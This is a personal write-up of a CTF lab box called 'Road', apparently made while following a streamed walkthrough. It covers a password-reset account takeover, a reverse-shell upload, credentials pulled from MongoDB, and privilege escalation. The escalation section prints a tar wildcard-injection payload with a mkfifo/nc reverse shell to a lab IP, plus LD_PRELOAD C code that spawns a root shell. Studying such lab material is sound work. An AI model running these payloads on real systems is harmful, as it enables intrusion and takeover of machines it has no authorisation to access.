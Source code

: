 # Road Helped-Through

Name: Road
Date:  16/4/2023
Difficulty:  Medium
Goals:  
- Follow along with Al while I do the more automatable time hungry Offsec execises 
- Warm up
Learnt:
- Try Harder
- Scrutinise integrity of password reset source code
- READ
Beyond Root:
- H4ddixB4dg3r Programming for a hour!

<iframe width="560" height="315" src="https://www.youtube.com/embed/yYw3ysOdNt8" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>

[Alh4zr3d - VOD](https://www.youtube.com/watch?v=yYw3ysOdNt8) I followed allow and paused serval times to distance myself from these Helped-Throughs as I inch closer to going for more OSCP stuff.

## Recon

The time to live(TTL) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)

Nuclei finds [[phpmyadmin-panel-http___10.10.75.48_phpMyAdmin_]]

- Registered a user: `admin@admin.com : admin`
- Found the `admin@sky.thm`

I found:
![](loggedinadminsemail.png)

Al points out No CSRF token
![](alfindcsrftoken.png)

Testing 
![](seewhathappens.png)

Results in:
![](none.png)

Password resets are not normally implemented without requiring previous password.
![](resetuser.png)

Oh oh
![](letsseeifitworked.png)

Now we are Admin
![](weareadminskythm.png)


Now we can upload a picture for user profile

Alh4zr3d points out XXS
![1080](sadliveoverflow.png)
It is not displaying everything as it is Reflected-based XSS

- It not stored as it is not persistent
- It is reflected back, but non persistent 

- Is user input is reflected back onto the page? 
- Is http-only flag set to prevent user cookie compromise ?

[Types of XSS](https://owasp.org/www-community/Types_of_Cross-Site_Scripting) either client-side or server-side
 - DOM XSS 
	 - Where the entire tainted data flow from source to sink takes place in the browser
	 - Is subset of Client XSS
- Reflected XSS
	- Non-Persistent
- Stored XSS
	- Persistent

![](alONEtoolsZero.png)


## Exploit and www-data Foothold

Simply just uploaded pentest monkey reverse shell. I was hoping I could crack open some methodological rigor for myself.
![](rshellachieved.png)

Go mongodb
![](webdeveloperowwnedfiles.png)
Al points out this:
![](iwentforconfbutalfinditfirst.png)

`ThisIsSecurePassword!`

I paused here to practice some SQL
![](sequalofwoow.png)


`webdeveloper : BahamasChapp123!@#`

```sql
mongo "mongodb://localhost:27017"
show dbs;
use backup;
show tables;
db.user.find();
```

![](webdeveloperspassword.png)

## PrivEsc

Now as the webdeveloper user:
![](clapping.png)
Initial sudo privilege:
![](sudosky_back_up_utility.png)

I ran this is binary and paused the video as I think this is similar to [[Reddish-Helped-Through]] - it is backing up the webserver with a wildcard:
![](backupthewebshell.png)
[Hack Tricks - wildcards spare trikcs](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks)

It uses `tar`
![](tarwildcards.png)

So we can just get root from something like
```bash
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.14.43.145 6969 >/tmp/f" > shell.sh
```

![](didnotwork.png)

Al points out how sudo is `env_keep+=LD_PRELOAD`, we have `gcc` - from [Hacktricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#ld_preload-and-ld_library_path)

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

![](whichworked.png)

- Try Harder.

## Beyond Root

H4ddixB4dg3r Programming for a hour!
